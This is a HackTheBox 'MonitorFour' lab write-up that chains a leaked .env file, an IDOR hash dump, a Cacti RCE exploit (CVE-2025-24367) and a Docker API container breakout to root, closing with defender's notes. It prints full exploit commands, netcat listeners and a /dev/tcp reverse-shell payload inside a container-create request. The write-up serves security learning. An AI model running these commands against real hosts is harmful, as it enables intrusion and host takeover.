


MonitorFour is a Windows box with a web-to-container-to-host theme. The web tier leaks its own database configuration and exposes an authorisation flaw that hands over user password hashes; one of those cracks and unlocks a vulnerable Cacti instance, where a recent CVE gives code execution. That shell lands inside a Docker container, and the final move is a classic container breakout: the host's Docker Engine API is listening unauthenticated, so we tell it to build us a container that mounts the host and runs a shell as root.
Attack chain at a glance
- Recon — HTTP (80) and WinRM (5985) on a Windows host; a
cactivirtual host behind the main site. - Info leak — an exposed
.envfile (secrets exposure) and an IDOR on/user?token=that dumps every user record, MD5 password hashes included. - Crack — the admin MD5 falls to rockyou in under a second.
- Foothold — CVE-2025-24367 turns the authenticated Cacti session into arbitrary PHP write + execution; shell as
www-datainside a container; user flag. - Root — the host's Docker Engine API is exposed on
2375with no TLS or auth; create a container binding the host filesystem and run a reverse shell as root.
Reconnaissance
Only two ports answer, but they tell a story on their own: a bare nginx on 80 and WinRM on 5985, with service detection calling the host Windows. WinRM being open is a note for later — if we ever recover a Windows credential, that is a ready-made remote shell.
nmap -Pn 10.129.174.167 -p80,5985 -sCV
PORT STATE SERVICE VERSION
80/tcp open http nginx
|_http-title: MonitorsFour - Networking Solutions
| http-cookie-flags:
|_ /: PHPSESSID: httponly flag not set
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsThe PHPSESSID cookie shows the app is PHP. Add the hostname, then fuzz for virtual hosts — many real deployments route several apps through one nginx by Host header, and HackTheBox leans on this constantly.
echo "10.129.174.167 monitorsfour.htb" | sudo tee -a /etc/hosts
ffuf -u http://monitorsfour.htb/ -H "Host: FUZZ.monitorsfour.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 138
cacti [Status: 302, Size: 0, Words: 1, Lines: 1]The -fs 138 filter drops the default-page size so only genuinely different responses show through — and cacti surfaces. Add cacti.monitorsfour.htb to /etc/hosts as well. Cacti is an open-source network-monitoring front end; the version here is old enough to have public exploits, but both of the ones worth trying need a valid login first. So the immediate objective becomes: find credentials.
Information disclosure — .env and an IDOR
Content discovery on the main application is where the box opens up:
ffuf -u http://monitorsfour.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
.env [Status: 200, Size: 97]
contact [Status: 200]
controllers [Status: 301]
forgot-password [Status: 200]
login [Status: 200]
user [Status: 200, Size: 35]
views [Status: 301]A readable .env is a textbook secrets-exposure finding — framework environment files routinely hold database and API credentials and should never sit under the web root:
curl http://monitorsfour.htb/.env
DB_HOST=mariadb
DB_PORT=3306
DB_NAME=monitorsfour_db
DB_USER=monitorsdbuser
DB_PASS=f37p2j8f4t0rThat database is only reachable from inside the host for now, so park the credential and keep enumerating. The /user endpoint returned a tiny 35-byte body — suspiciously like a stub waiting for a parameter. Fuzzing parameter names against it finds one:
ffuf -u "http://monitorsfour.htb/user?FUZZ=key" \
-w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 35
token [Status: 200, Size: 36]Now the real flaw. The endpoint takes a token but never checks whether the token belongs to the caller — supplying a throwaway value returns the full user table. This is a classic Insecure Direct Object Reference: an object (every user's record) is served purely on the strength of a reference we control, with no authorisation on top.
curl "http://monitorsfour.htb/user?token=0"
[{"id":2,"username":"admin","email":"admin@monitorsfour.htb",
"password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user",
"token":"8024b78f83f102da4f","name":"Marcus Higgins",
"position":"System Administrator",...},
{"id":5,"username":"mwatson","password":"69196959c16b26ef00b77d82cf6eb169",...},
{"id":6,"username":"janderson","password":"2a22dcf99190c322d974c8df5ba3256b",...},
{"id":7,"username":"dthompson","password":"8d4a7e7fd08555133e056d9aacb1e519",...}]Those 32-hex-character passwords are unsalted MD5 — fast to crack. Several of the mwatson/janderson hashes even start with 0e, the giveaway of PHP magic-hash / type-juggling bait, but the admin's is the one that matters:
hashcat -m 0 56b32eb43e6f15395f6c46c1c9e1cd36 /usr/share/wordlists/rockyou.txt
56b32eb43e6f15395f6c46c1c9e1cd36:wonderful1
Status...........: CrackedMode 0 is raw MD5. The crack is instant — wonderful1 — and the record ties the admin account to the display name Marcus, which is what Cacti expects as a username.

marcus / wonderful1). An authenticated session is the precondition for the exploit.Foothold — CVE-2025-24367 (Cacti authenticated RCE)
CVE-2025-24367 abuses Cacti's custom-graph / template handling: an authenticated user can get the application to create attacker-controlled PHP files under the web root, which then execute. In other words, the login we just earned is the key, and the CVE turns it into code execution. The public PoC automates the whole dance — log in, create the graph, write the PHP stager, trigger it.

python3 exploit.py \
-u marcus -p wonderful1 \
-i 10.10.14.11 -l 4444 \
-url http://cacti.monitorsfour.htb
[+] Cacti Instance Found!
[+] Serving HTTP on port 80
[+] Login Successful!
[+] Got graph ID: 226
[i] Created PHP filename: zhiwh.php
[+] Got payload: /bash
[+] Hit timeout, looks good for shell, check your listener!nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.129.174.167] 50092
bash: cannot set terminal process group (8): Inappropriate ioctl for device
www-data@821fbd6a43fa:~/html/cacti$The www-data user and the hex hostname 821fbd6a43fa are the first hint that this is not the real host but a container. Either way, the user flag is right here:
www-data@821fbd6a43fa:/home$ ls
marcus
www-data@821fbd6a43fa:/home$ cat marcus/user.txtMapping the container
Before reaching for kernel exploits, characterise the environment — half the privilege-escalation battle on containerised boxes is realising you are in a container and asking what the container can see of its host:
uname -a
# Linux 821fbd6a43fa 6.6.87.2-microsoft-standard-WSL2 ... <- WSL2 Docker host
mount | grep cgroup
# cgroup on /sys/fs/cgroup type cgroup2 (ro,...)
ip route show | grep default
# default via 172.18.0.1 dev eth0 <- Docker bridge gateway
ss -tulnp
# only 80 (nginx) and 9000 (PHP-FPM) listening internallyThe kernel string microsoft-standard-WSL2 says the Docker host is Docker Desktop on Windows via WSL2. The most useful file is /etc/resolv.conf, which Docker Desktop annotates with the host's internal address:
cat /etc/resolv.conf
# Generated by Docker Engine.
# ExtServers: [host(192.168.65.7)] <- the host, reachable from the container
curl http://192.168.65.7:2375/version
{"Platform":{"Name":"Docker Engine - Community"},"Version":"28.3.2",
"ApiVersion":"1.51","Os":"linux","Arch":"amd64", ...}That reply is the whole game. TCP 2375 is the Docker Engine REST API in its plaintext, unauthenticated form (the TLS port is 2376). Anyone who can reach it can drive the daemon, and the daemon runs as root on the host.
Root — abusing the exposed Docker Engine API
Access to the Docker daemon is equivalent to root on its host, by design — the API can create a container that bind-mounts the entire host filesystem, so even an unprivileged attacker who can talk to2375owns the box. Read-only endpoints worth a glance for recon are/info,/images/json(pick an image that already exists) and/containers/json; the breakout itself is just acreate+start.
Build a container-create request that reuses an image already present on the host, binds the host's C: drive in, and sets the command to a reverse shell:
cat << 'EOF' > config.json
{
"Image": "docker_setup-nginx-php:latest",
"Cmd": ["/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.11/4445 0>&1"],
"HostConfig": {
"Binds": ["/mnt/host/c:/host_root"]
}
}
EOF
curl -H 'Content-Type: application/json' -d @config.json \
http://192.168.65.7:2375/containers/create -o response.json
cat response.json # note the "Id" returned
curl -X POST http://192.168.65.7:2375/containers/<ID>/startStart a listener on 4445 first; the moment the container starts, its command runs as root and connects back. Because /mnt/host/c (the host's C: under WSL) is bind-mounted into the new container, the root flag and anything else on the host is readable from inside it.
nc -nlvp 4445
connect to [10.10.14.11] from (UNKNOWN) [10.129.174.167]
root@<new-container>:/# cat /host_root/Users/Administrator/Desktop/root.txtDefender's notes
- Keep framework env files (
.env) and config out of the web root, and make sure the server refuses to serve dotfiles. - Enforce authorisation on every object-returning endpoint — a
tokenis authentication material, not an access-control decision. Bind each request to the authenticated principal and check ownership (the core of fixing an IDOR). - Store passwords with a slow, salted algorithm (bcrypt/argon2), never raw MD5.
- Patch Cacti; CVE-2025-24367 is fixed in current releases.
- Never expose the Docker API on
2375without mutual TLS, and never reachable from a workload container. Treat daemon access as host root.